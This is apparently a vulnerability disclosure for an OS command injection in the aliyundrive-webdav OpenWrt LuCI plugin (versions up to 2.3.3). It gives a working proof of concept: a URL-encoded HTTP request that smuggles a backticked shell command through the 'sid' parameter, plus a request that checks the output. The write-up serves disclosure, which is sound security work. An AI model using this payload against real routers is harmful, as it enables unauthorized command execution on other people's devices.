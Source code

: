 ## aliyundrive-webdav OpenWrt plugin has a command injection vulnerability

Affected product:  *aliyundrive-webdav* <= 2.3.3

### Product Information

project: https://github.com/messense/aliyundrive-webdav/

Location of the vulnerability: https://github.com/messense/aliyundrive-webdav/openwrt/luci-app-aliyundrive-webdav/luasrc/controller/aliyundrive-webdav.lua

### Vulnerability Description

When deal with `action_query_qrcode` request,`sid` parameter is vulnerable to OS command injection.

![](img/1.png)

payload:

```http
GET /cgi-bin/luci/admin/services/aliyundrive-webdav/query?sid=%60%6c%73%20%2f%3e%2f%77%77%77%2f%31%32%33%2e%74%78%74%60 HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=41273cb2cffef0bb5d0653592624cf64
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.32.129/cgi-bin/luci/admin/services/aliyundrive-webdav/client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


```

inject the command "`ls />/www/123.txt`"

![](img/2.png)

check the result

```http
GET /123.txt HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=41273cb2cffef0bb5d0653592624cf64
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.32.129/cgi-bin/luci/admin/services/aliyundrive-webdav/client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


```

![](img/3.png)
